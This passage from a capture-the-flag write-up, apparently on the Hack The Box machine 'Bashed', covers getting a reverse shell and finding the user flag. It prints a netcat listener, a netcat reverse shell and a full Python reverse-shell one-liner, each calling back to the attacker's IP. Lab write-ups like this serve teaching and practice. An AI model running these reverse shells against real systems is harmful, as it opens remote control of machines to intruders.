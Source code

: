 • This way you’ll have consistent access to the system by a shell that you control.
 Since we’re modelling a real penetration test,let’s get a reverse shell going.
 
• In the attack machine (kali) set up a listener

nc -nlvp 4444

•In the target machine (bashed) send a reverse shell to the attack machine.

nc -nv 10.10.14.30 4444 -e /bin/sh


• Unfortunately, the connection keeps terminating. Let’s try sending a reverse shell in a different way.
  
• Pentestmonkey has a comprehensive list of reverse shells. Check if python exists on the target machine.

which python


• Since we get back a result,python is installed on the machine!

• Copy the python command from the list and change it to your attack machine’s ip address and listening port.

python -c 
' import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.30",4444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'


• Yes! We have a reverse shell going.

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/2/9.jpg)

• Let’s find the user flag. Change to the home directory and view its contents.

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/2/10.jpg)

• I have execute privileges on both arrexel and scriptmanager directories. Let’s look in the arrexel directory first.

• We found the user flag!

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/2/11.jpg)



Privilege Escalation

• Next, I need to figure out what other privileges I have or can easily get.
  The following command lists the allowed commands for my user.
  
![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/2/12.jpg)
  